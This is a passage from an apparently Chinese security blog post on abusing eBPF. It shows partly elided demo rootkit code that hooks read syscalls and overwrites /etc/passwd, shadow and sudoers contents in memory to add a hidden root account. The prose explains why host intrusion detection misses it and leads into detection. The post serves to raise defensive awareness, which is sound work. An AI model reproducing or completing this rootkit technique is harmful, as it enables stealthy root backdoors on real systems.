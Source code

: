 
**内核态使用payload**

```
 1const volatile int payload_len = 0; 2... 3const volatile char payload_shadow[MAX_PAYLOAD_LEN]; 4 5SEC("tracepoint/syscalls/sys_exit_read") 6int handle_read_exit(struct trace_event_raw_sys_exit *ctx) 7{ 8    // 判断是否为rootkit行为，是否需要加载payload 9    ...10    long int read_size = ctx->ret;11    // 判断原buff长度是否小于payload12    if (read_size < payload_len) {13        return 0;14    }1516    // 判断文件类型，匹配追加相应payload17    switch (pbuff_addr->file_type)18    {19    case FILE_TYPE_PASSWD:20        // 覆盖payload到buf，不足部分使用原buff内容21        {22            bpf_probe_read(&local_buff, MAX_PAYLOAD_LEN, (void*)buff_addr);23            for (unsigned int i = 0; i < MAX_PAYLOAD_LEN; i++) {24                if (i >= payload_passwd_len) {25                    local_buff[i] = ' ';26                }27                else {28                    local_buff[i] = payload_passwd[i];29                }30            }31        }32        break;33    case FILE_TYPE_SHADOW:34        // 覆盖 shadow文件35        ...36        break;37    case FILE_TYPE_SUDOERS:38        //覆盖sudoers39        ...40        break;41    default:42        return 0;43        break;44    }454647    // 将payload内存写入到buffer48    ret = bpf_probe_write_user((void*)buff_addr, local_buff, MAX_PAYLOAD_LEN);49    // 发送事件到用户态5051    return 0;52}
```

按照如上demo rootkit的设计，即完成了随机用户名密码的root账号添加。在鉴权认证上，也可以配合eBPF网络层恶意利用的demo，利用eBPF map交互，实现相应鉴权。但rootkit本身并没有更改硬盘上文件，不产生风险行为。并且，只针对特定进程的做覆盖，隐蔽性更好。整个流程如下图：

![](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

不管是在物理机上，还是给了root+BPF权限的容器上，都一样生效。

  

**· 视频演示**

  

**· 危害**

云原生场景下，赋予SYS_ADMIN的权限的容器场景很多，若配合近期的JAVA log4j漏洞，直接击穿容器，拿到宿主机权限，是不是很可怕？

  

然而，比这可怕的是这种rootkit本身并没有产生用户态行为日志，也没有改文件，系统里查不到这个用户信息。整个后门行为不产生数据，让大部分HIDS失灵。

  

  _**综述**_

从笔者演示的这两个场景可以来看，大家已经知道eBPF技术被恶意利用的危害。其实，这只是eBPF技术的冰山一角，在kproeb\uprobe上也有很多功能，比如实现进程隐藏，无痕内网扫描等等。相关恶意利用可参考**《Bad BPF - Warping reality using eBPF》**[文末链接-3]一文。

  

若入侵者精心设计rootkit，实现进程隐藏等，让rootkit更加隐蔽，按照本文的思路，实现一个幽灵般的后门，想想就让人后怕。

  

常规的主机安全防御产品一般用netlink linux kernel module等技术实现进程创建、网络通讯等行为感知，而eBPF的hook点可以比这些技术更加深，比他们执行更早，意味着常规HIDS并不能感知发现他们。

  

传统rootkit，采用hook api方法，替换原来函数，导致执行函数调用地址发生变化，已有成熟检测机制，eBPF hook不同于传统rootkit ，函数调用堆栈不变。这给检测带来很大的麻烦。

  

那面对这种后门，该如何检测防御呢？

  
